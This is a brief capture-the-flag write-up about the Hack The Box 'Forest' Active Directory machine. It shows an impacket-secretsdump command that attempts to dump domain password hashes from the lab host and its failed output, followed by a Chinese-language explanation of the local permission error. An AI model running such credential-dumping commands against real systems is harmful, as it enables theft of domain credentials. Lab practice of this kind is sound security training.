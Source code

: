 The “Forest” machine on Hack The Box was an incredibly fun and educational experience. I delved deep into Active Directory enumeration to identify weaknesses and map out attack paths. Using RPCClient, I was able to interact with the system and gather valuable information, which played a crucial role in the enumeration phase. As I progressed, I discovered multiple opportunities for privilege escalation, learning new techniques along the way. Overall, the machine offered a great blend of challenges, and I walked away with a much deeper understanding of how to approach Active Directory environments in penetration testing.

![](https://miro.medium.com/v2/resize:fit:655/0*xOlcSWiIEDfrX6Pm)

Completetion of Forest Machine

─$ impacket-secretsdump htb.local/shiyan@10.10.10.161
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Cannot create "sessionresume_DPvLaPmQ" resume session file: [Errno 13] Permission denied: 'sessionresume_DPvLaPmQ'
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
你可以通过几个简单步骤来确认 “本地写权限” 是否是问题。你的报错里有这一行：

`Cannot create "sessionresume_DPvLaPmQ" resume session file: [Errno 13] Permission denied`

- `[Errno 13] Permission denied` ✅  
    这通常是 **本地文件系统权限不足**，而不是远程服务器的问题。
    
- `sessionresume_XXXX` 是 `impacket-secretsdump` 在本地创建的一个临时文件，用来记录抓取会话。
    
- 如果当前目录没有写权限，就会报这个错误。